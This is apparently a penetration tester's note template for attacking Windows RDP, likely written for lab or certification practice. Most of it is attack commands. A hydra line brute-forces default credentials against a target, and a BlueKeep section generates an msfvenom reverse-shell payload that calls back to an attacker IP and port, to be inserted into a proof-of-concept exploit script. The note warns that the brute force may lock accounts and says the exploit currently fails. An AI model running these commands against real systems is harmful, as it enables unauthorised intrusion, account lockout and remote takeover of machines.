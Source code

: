 #service 
<% tp.file.rename("1_RDP_")%>
☑️
> Auch ms-wbt-server


## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!

## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue